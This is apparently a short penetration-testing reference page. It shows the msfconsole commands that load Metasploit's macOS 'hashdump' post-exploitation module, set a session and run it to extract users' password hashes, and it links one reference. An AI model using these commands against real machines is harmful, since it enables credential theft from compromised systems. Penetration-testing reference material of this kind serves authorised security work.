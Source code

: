 # Hashdump

```
msf > use post/osx/gather/hashdump

msf post(osx/gather/hashdump) > options

Module options (post/osx/gather/hashdump):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   MATCHUSER                   no        Only attempt to grab hashes for users whose name matches this regex
   SESSION                     yes       The session to run this module on

msf post(osx/gather/hashdump) > set session <session_id>

msf post(osx/gather/hashdump) > run
```

## References

- [Metasploit Mac OSX Post Exploitation Enumeration and Hashdump](https://eromang.zataz.com/2011/02/23/metasploit-mac-os-x-post-exploitation-enumeration-and-hash-dump/)